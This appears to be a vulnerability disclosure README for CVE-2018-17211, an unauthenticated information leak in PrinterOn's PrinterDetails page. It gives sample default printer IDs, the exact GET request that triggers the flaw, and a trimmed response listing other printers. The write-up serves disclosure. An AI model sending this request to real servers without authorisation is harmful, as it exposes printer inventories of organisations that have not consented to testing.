

# CVE-2018-17211-Unauthenticated Information Disclosure-PrinterOn

The PrinterOn application is vulnerable to an Information Disclosure vulnerability due to the overly permissive read access on the "PrinterDetails" page.
This behaviour is triggered by giving a valid "printerId", exposing the other existing printers.

##### Example of Default Printer IDs

- 900005228231
- 900784151735
- 900739427876

##### REQUEST:

```
GET /cps/PrinterDetails?printerId=900005228231 HTTP/1.1
Host: YY.YY.YY.YY
```

##### RESPONSE:

```
HTTP/1.1 200 
<--SNIP-->
Server: PrinterOn
Content-Length: 12625

<--SNIP-->

<div class="col-xs-6">
                        <select class="form-control" name="printerId" size="1"
                                onChange="document.ShowPrinterDetailsForm.submit()" style="vertical-align: top;">
                            
                                <option value="900005228231"  selected >
                                        Auto-generated Printer 1
                                </option>
                            
                                <option value="900784151735" >
                                        Auto-generated Printer 2
                                </option>
                            
                                <option value="900739427876" >
                                        TestPrint
                                </option>
                            
                        </select>
                    </div>

<--SNIP--> 
````


